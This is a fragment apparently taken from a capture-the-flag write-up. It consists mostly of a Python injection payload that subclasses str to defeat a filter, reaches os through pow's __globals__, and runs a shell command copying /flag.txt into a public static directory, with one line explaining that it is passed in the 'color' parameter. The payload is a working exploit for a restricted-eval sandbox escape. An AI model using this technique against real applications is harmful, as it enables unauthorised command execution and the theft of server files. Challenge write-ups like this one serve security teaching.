[ [ getattr(pow,Word('__globals__'))['os'].system('cp /flag.txt /app/phantom-feed/application/static/') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'
```

Passing the following payload in the color parameter will cause the flag file to be copied to the static folder thus making it readable at `/static/flag.txt`.